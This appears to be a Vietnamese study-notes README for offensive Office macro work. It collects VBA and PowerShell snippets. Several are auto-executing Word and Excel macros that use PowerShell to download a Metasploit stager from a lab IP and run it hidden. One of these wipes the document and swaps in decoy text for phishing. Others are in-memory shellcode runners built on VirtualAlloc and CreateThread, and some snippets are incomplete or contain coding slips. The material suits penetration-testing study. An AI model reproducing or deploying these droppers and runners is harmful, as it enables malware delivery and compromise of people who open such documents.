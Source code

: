 1. Basic code VBA
```vb
Sub Document_Open()
    myMacro
End Sub

Sub AutoOpen()
    myMacro
End Sub

Sub myMacro()
	ShellcodeRunner
End Sub

Sub myMacro()
Dim myLong As Long
myLong = 1
If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

End Sub
```

2. Exercise: Dùng hàm Environ$ để in username và computer name
```vb
Sub PrintUserNameAndComputerName()
    Dim i As Integer
    Dim username As String
    Dim computername As String
    
    ' Get the username and computer name
    username = Environ$("USERNAME")
    computername = Environ$("COMPUTERNAME")
    
    ' Loop to print 5 times
    For i = 1 To 5
        MsgBox "Username: " & username & vbCrLf & "Computer Name: " & computername
    Next i
End Sub
```

3. Code VBA 2, dùng để tải file về ổ cứng có thời gian chờ và thực thi nó 
```vb
Sub Document_Open() 
    myMacro
End Sub

Sub AutoOpen()
    myMacro
End Sub

Sub myMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.101.101.63/uploads/msfstaged.exe','C:\Windows\Temp\payload.exe')"
    Shell str, vbHide
    Dim exePath As String
	  exePath = "C:\Windows\Temp\payload.exe"
    Wait (3)
    Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

4. Bài tập áp dụng trên Excel
```vb
Private Sub Workbook_Open()
    myMacro
End Sub

Sub Auto_Open()
    myMacro
End Sub

Sub myMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.101.101.63/uploads/msfstaged.exe','C:\Windows\Temp\payload.exe')"
    Shell str, vbHide
    Dim exePath As String
	exePath = "C:\Windows\Temp\payload.exe"
    Application.Wait (Now + TimeValue("0:00:03"))
    Shell exePath, vbHide
End Sub
```

5. Code VBA dùng để phishing trong MS Word
```vb
Sub Document_Open()
	SubstitutePage
End Sub

Sub AutoOpen()
	SubstitutePage
End Sub

Sub SubstitutePage()
	 ActiveDocument.Content.Select
	 Selection.Delete
	 ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
	 myMacro
End Sub

Sub myMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.101.101.63/uploads/msfstaged.exe','C:\Windows\Temp\payload.exe')"
    Shell str, vbHide
    Dim exePath As String
	exePath = "C:\Windows\Temp\payload.exe"
    Wait (3)
    Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

6. Code VBA hiển thị tên của máy hiện tại
```vb
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long

Sub MyMacro()
    Dim res As Long
    Dim MyBuff As String * 256
    Dim MySize As Long
    Dim strlen As Long
    MySize = 256
    
    res = GetUserName(MyBuff, MySize)
    strlen = InStr(1, MyBuff, vbNullChar) - 1
    MsgBox Left$(MyBuff, strlen)
End Sub
```

7. Simple Shell Code runner VBA
```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function ShellcodeRunner()
' SHELLCODE
    Dim buf As Variant
    buff = "Something"

' REVERSE SPACE
    Dim addr As LongPtr
    addr = VirtualAlloc(0, UBound(buf), &H300, &H40)

' COPY COUNTER
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter

'CREATE THREAD
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub MyMacro()
	ShellcodeRunner
End Sub

Sub Document_Open()
    ShellcodeRunner
End Sub

Sub AutoOpen()
    ShellcodeRunner
End Sub
```

8. C# để hiện thông báo
```cs
# Tạo ra lớp với để tương tác với Win32 API, imports the MessageBox signature

$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, 
String caption, int options);
} 
"@

# Add-Type sử dụng .NET framework để biên dịch mã C# chứa khai báo Win32 API
Add-Type $User32

# Thực thi API
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

9. Simple PowerShell Code Runner C# 
```cs
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes,  uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle,  UInt32 dwMilliseconds);
 } 
"@
Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60

$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```



Resource:   
- [Running ShellCode in Memory | AV Evasion – VBA Version – San3ncrypt3d Inc. – Making cybersecurity a habit & Privacy a Goal](https://san3ncrypt3d.com/2021/08/13/VBAShell/)
- [OSEP-Breaking-Chains/Runners/Caesar-XOR-Staged-Shellcode-Runner.vb at main · gh0x0st/OSEP-Breaking-Chains (github.com)](https://github.com/gh0x0st/OSEP-Breaking-Chains/blob/main/Runners/Caesar-XOR-Staged-Shellcode-Runner.vb)     
- [OSEP-Breaking-Chains/Runners/Caesar-XOR-Shellcode-Runner.vb at main · gh0x0st/OSEP-Breaking-Chains (github.com)](https://github.com/gh0x0st/OSEP-Breaking-Chains/blob/main/Runners/Caesar-XOR-Shellcode-Runner.vb)     
- [OSEP-Code-Snippets/Simple Shellcode Runner/Simple Shellcode Runner.vba at main · chvancooten/OSEP-Code-Snippets (github.com)](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Simple%20Shellcode%20Runner/Simple%20Shellcode%20Runner.vba)    
























